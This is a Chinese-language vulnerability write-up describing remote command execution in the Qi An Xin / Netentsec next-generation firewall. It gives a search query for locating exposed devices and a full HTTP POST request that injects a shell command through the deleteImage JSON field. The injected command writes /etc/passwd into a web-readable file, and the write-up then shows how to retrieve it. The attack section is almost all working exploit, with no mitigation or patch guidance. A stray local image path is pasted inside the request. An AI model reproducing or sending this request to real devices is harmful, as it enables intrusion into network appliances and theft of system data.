 # 网康 下一代防火墙 router 远程命令执行漏洞

## 漏洞描述

奇安信 网康下一代防火墙存在远程命令执行，通过漏洞攻击者可以获取服务器权限

## 漏洞影响

```
奇安信 网康下一代防火墙
```

## 网络测绘

```
app="网康科技-下一代防火墙"
```

## 漏洞复现

登录页面如下

![](./images/202202162229920.png)

发送如下请求包

```plain
![2](C:\Users\47236\Desktop\2.png)POST /directdata/direct/router HTTP/1.1
Host: XXX.XXX.XXX.XXX
Connection: close
Content-Length: 179
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
Content-Type: application/json
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

{"action":"SSLVPN_Resource","method":"deleteImage","data":[{"data":["/var/www/html/d.txt;cat /etc/passwd >/var/www/html/test_cmd.txt"]}],"type":"rpc","tid":17,"f8839p7rqtj":"="}
```

再请求获取命令执行结果

```plain
http://xxx.xxx.xxx.xxxx/test_cmd.txt
```

![](./images/202202162229568.png)

